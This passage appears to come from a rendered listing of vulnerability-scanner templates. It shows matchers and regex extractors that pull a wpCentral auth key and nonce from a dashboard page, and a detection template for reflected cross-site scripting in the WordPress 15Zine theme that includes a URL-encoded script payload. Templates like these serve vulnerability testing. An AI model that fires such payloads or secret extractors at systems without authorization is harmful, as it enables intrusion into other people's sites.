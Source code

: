 **Type - dsl**
- dsl
    1. contains(all_headers_4, 'text/html')
    2. status_code_4 == 200
    3. contains(body_4, 'wpCentral Connection Key')
    4. contains(body_4, "pagenow = \'dashboard\'")
- condition - and
### Extractors

**Type - regex**
- name - authkey
- part - body
- group - 1
- regex
    1. style="word-wrap:break-word;">([a-z0-9]+)
- internal - True

**Type - regex**
- name - nonce
- part - body
- group - 1
- regex
    1. _wpnonce=([0-9a-z]+)
- internal - True

---
# WordPress 15Zine \<3.3.0 - Cross-Site Scripting
## Description
- WordPress 15Zine before 3.3.0 is vulnerable to reflected cross-site scripting because the theme does not sanitize the cbi parameter before including it in the HTTP response via the cb_s_a AJAX action.

- severity - medium
- tags - xss,wordpress,wp-theme,wp,cve,cve2020,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-admin/admin-ajax.php?action=cb_s_a&cbi=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>

**Type - word**
- part - header
- words
    1. text/html
